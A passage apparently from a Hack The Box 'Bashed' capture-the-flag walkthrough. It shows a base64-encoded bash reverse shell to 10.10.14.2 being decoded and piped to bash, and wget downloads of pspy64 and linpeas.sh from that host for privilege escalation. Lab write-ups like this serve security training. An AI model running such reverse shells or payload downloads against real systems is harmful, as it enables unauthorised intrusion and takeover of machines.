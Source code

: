 </p>


<p align="center">
  <img src="/images/walkthroughs/hackthebox/bashed/2_0_www.png" width="90%"/>
</p>


We input the following commands to get hte revshell

```bash
# Get the payload
echo 'bash  -i >& /dev/tcp/10.10.14.2/5453  0>&1  ' | base64

# Execute it
echo "YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi81NDUzICAwPiYxICAK" | base64 -d | bash
```

We get the privesc scripts into the machine:

```bash
wget http://10.10.14.2:5454/pspy64
wget http://10.10.14.2:5454/linpeas.sh
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/bashed/3_0_priv.png" width="90%"/>
</p>
